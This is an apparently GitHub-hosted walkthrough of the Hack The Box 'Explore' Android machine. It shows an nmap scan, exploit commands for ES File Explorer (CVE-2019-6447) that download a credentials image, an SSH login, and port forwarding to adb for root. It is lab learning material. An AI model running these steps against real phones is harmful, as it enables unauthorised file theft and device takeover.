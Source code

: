 ## explore writeup

 This box is a mobile system, a phone and it was my first mobile box on HTB. It's not a complex box, but it's interesting.

1. first of all do nmap scan in this box.

`nmap -T4 -sCV -p- -oN explore 10.10.10.247`

the result will be this.
 ````bash
Nmap 7.91 scan initiated Fri Sep  3 20:32:32 2021 as: nmap -T4 -sCV -p- -oN explore 10.10.10.247
Warning: 10.10.10.247 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.247
Host is up (0.71s latency).
Not shown: 65485 closed ports, 46 filtered ports
PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
42135/tcp open  http    ES File Explorer Name Response httpd
42893/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:24:51 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Fri, 03 Sep 2021 15:24:52 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Fri, 03 Sep 2021 15:24:58 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:18 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:24:59 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:19 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:22 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Fri, 03 Sep 2021 15:25:21 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=9/3%Time=61323A6F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port42893-TCP:V=7.91%I=7%D=9/3%Time=61323A70%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Fri,\x200
SF:3\x20Sep\x202021\x2015:24:51\x20GMT\r\nContent-Length:\x2022\r\nContent
SF:-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r
SF:\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412\x
SF:20Precondition\x20Failed\r\nDate:\x20Fri,\x2003\x20Sep\x202021\x2015:24
SF::52\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1\.
SF:0\x20501\x20Not\x20Implemented\r\nDate:\x20Fri,\x2003\x20Sep\x202021\x2
SF:015:24:58\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/plai
SF:n;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x20
SF:supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nDate:\x20Fri,\x2003\x20Sep\x202021\x2015:24:59\x20GMT\r\nConte
SF:nt-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\
SF:nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version:\
SF:x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDat
SF:e:\x20Fri,\x2003\x20Sep\x202021\x2015:25:18\x20GMT\r\nContent-Length:\x
SF:2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:
SF:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionReq,
SF:DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Fri,\x2003\x20Sep\x2
SF:02021\x2015:25:19\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid\x
SF:20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\?\
SF:0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalSer
SF:verCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Fri,\x2003
SF:\x20Sep\x202021\x2015:25:21\x20GMT\r\nContent-Length:\x2054\r\nContent-
SF:Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\
SF:nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mstsh
SF:ash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDa
SF:te:\x20Fri,\x2003\x20Sep\x202021\x2015:25:22\x20GMT\r\nContent-Length:\
SF:x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection
SF::\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0e
SF:\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Fri Sep  3 21:10:42 2021 -- 1 IP address (1 host up) scanned in 2289.50 seconds
````
according to the information presented by the scan, this is a phone.
researching about the identified services i found some interesting info.

`JSONAPI is a plugin for Bukkit that allows you to access data and other information about your server and your players through a simple, yet secure, HTTP API. This allows you to make awesome websites, iPhone apps, and a way for your players to purchase goods online and automatically receive them in game.`

02. Port 42135 is running a ES File Explorer this creates an HTTP service bound to port 59777 and doing a search you can find a public exploit (CVE-2019-6447).

![task 2](https://github.com/geeksniper/my-HackTheBox-writeup/blob/63a7303774413edb0262d1b8d9171b4e54e30c41/explore/explore-img/02.%20publicexploit-of-es-file-explorer.png)

03. Through this exploit I could read some files.

![task 3](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/03.%20using-exploit-list-files.png)

04. after that list pics and i got interesting .jpg file.

![task 4](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/04.%20list-pics.png)

05. now i download the file

````bash
python3 explorer-exploit.py listPics 10.10.10.247

python3 explorer-exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
````
![task 5](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/05.%20downlaod-jpg.png)

06. I open the .jpg file and This .jpg has notes looking like credentials.

![task 6](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/06.%20open-this-file-get-credential-of-ssh.png)

07. As enumerated before, the SSH service is running on port 2222 and using this credentials we were able to login successfully.

````bash
ssh kristi@10.10.10.247 -p 2222
````
![task 7](https://github.com/geeksniper/my-HackTheBox-writeup/blob/4429ca790ee0c531c55c1f03459b70c67e8f26a6/explore/explore-img/07.%20login-ssh-and-get-into-it.png)

08. Now I'm able to inside this machine and able to find the user flag at /sdcard.

![task 8](https://github.com/geeksniper/my-HackTheBox-writeup/blob/7fba83952b2898d596c7434f51be15892d389d8a/explore/explore-img/08.%20got-user-flag.png)

09. Looking for a way to own the Android system I found some things about Android Debug Bridge (adb) - a development tool that allows communication between an Android device and a computer as a shell.
As some documentations the adb opens a localport (as "system") 5555 and its possible to connect on it through USB setting the configured port, but is possible to bypass this "restriction" doing a portfoward to our machine, in this case, using SSH to do that.

```bash
ssh kristi@10.10.10.247 -L 5555:localhost:5555 -p 2222
````
![task 9](https://github.com/geeksniper/my-HackTheBox-writeup/blob/7fba83952b2898d596c7434f51be15892d389d8a/explore/explore-img/09.%20connect-with-local-port.png)

10. After insert password to stabilish connection the SSH shell starts, but in another terminal its possible to see the localhost port 5555 fowarded to our machine. With that, its possible to interage on this port and we will use adb to do that.adb is running with privileges so we can elevate our privilege to root.

![task 10](https://github.com/geeksniper/my-HackTheBox-writeup/blob/7fba83952b2898d596c7434f51be15892d389d8a/explore/explore-img/10.%20connect-with-adb-and-got-root-access.png)

11. And now as root I could found the root flag using find command to search it.

![task 11](https://github.com/geeksniper/my-HackTheBox-writeup/blob/0a9f5f5aa62688642d5c7b14b13e2762b94cd403/explore/explore-img/11.%20Got-root-flag.png)

##finished
